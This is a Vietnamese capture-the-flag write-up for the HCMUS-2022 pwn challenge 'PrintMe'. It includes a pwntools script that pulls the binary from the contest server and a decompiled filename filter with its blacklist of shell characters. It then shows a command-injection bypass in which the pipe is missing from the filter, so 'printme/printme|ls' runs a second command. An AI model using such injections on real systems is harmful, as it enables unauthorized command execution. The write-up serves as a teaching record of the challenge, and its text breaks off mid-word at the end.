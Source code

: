 ## Write-Up PrintMe (HCMUS-2022 Pwn)

Ok mới vào sẽ không thấy bài này cho Binary
Bài này cho ta sử dụng `\bin\cat`, thì mình có cat thử `printme\printme` thì nó trả về binary

Viết một đoạn python nhỏ để lấy binary
```python
from pwn import *

r = remote('103.245.250.31', 32131)
context.clear(os='linux', arch='x86_64', log_level='debug')

r.sendlineafter(b'file name!\n', b'printme/printme')
r.recvuntil(b'printme/printme \n')
recv = r.recvall()

with open('./printme', 'wb') as f:
    f.write(recv)
```
Đọc code thì thấy input đầu vào được check như sau:
```C
void secure(char **param_1) {
    size_t sVar1;
    unsigned long uVar2;
    undefined8 local_48;
    undefined8 local_40;
    undefined4 local_38;
    undefined2 local_34;
    undefined local_32;
    char *local_28;
    char local_1f;
    char local_1e;
    char local_1d;
    uint local_1c;
    // #&;`'"*?<>^()[]{}$,\t\n 
    local_48 = 0x3f2a2227603b2623;
    local_40 = 0x7b5d5b29285e3e3c;
    local_38 = 0x92c247d;
    local_34 = 0x200a;
    local_32 = 0;
    local_1d = '\0';
    local_1e = '\0';
    local_1f = '\0';
    while (**param_1 == '/') {
        local_1d = '\x01';
        *param_1 = *param_1 + 1;
    }
    if (local_1d != '\0') {
        puts("You cannot specify an absolute path starting with /!");
    }
    while (1) {
        local_28 = strstr(*param_1, "../");
        if (local_28 == (char *)0x0)
            break;
        local_1e = '\x01';
        local_28[1] = '/';
    }
    if (local_1e != '\0') {
        puts("You cannot use directory traversal with ../ !!");
    }
    local_1c = 0;
    while (1) {
        uVar2 = (unsigned long)local_1c;
        sVar1 = strlen((char *)&local_48);
        if (sVar1 <= uVar2)
            break;
        while (1) {
            local_28 = strchr(*param_1, (int)*(char *)((long)&local_48 + (unsigned long)local_1c));
            if (local_28 == (char *)0x0)
                break;
            local_1f = '\x01';
            *local_28 = '_';
        }
        local_1c = local_1c + 1;
    }
    if (local_1f != '\0') {
        printf(
            "Your filename should not contain dangerous characters like #&;`\'\"*?<>^()[]{}$,\\t\\n \n !!!");
    }
    return;
}
```
+ Nếu ký tự đầu là `/` thì cộng con trỏ để bỏ qua
+ Nếu trong chuỗi có đoạn `../` thì sẽ đổi thành `.//`
+ Các ký tự đặc biệt như ``#&;`'"*?<>^()[]{}$,\t\n`` sẽ đổi thành dấu `_`

Bài này mình cũng lúng túng 1 tiếng tìm đủ kiểu bypass, nhưng rồi nhận ra nó thiếu 1 dấu đó là `|`
Nếu nhập `printme/printme|ls` thì ls sẽ được thực thi

Trong kết quả trả về của `ls` thì có thư mực tên là secret, trong đó có flag
Điền `secret\flag.txt` để lấy cờ.

Vâng file Dockerfile đã lừa các b
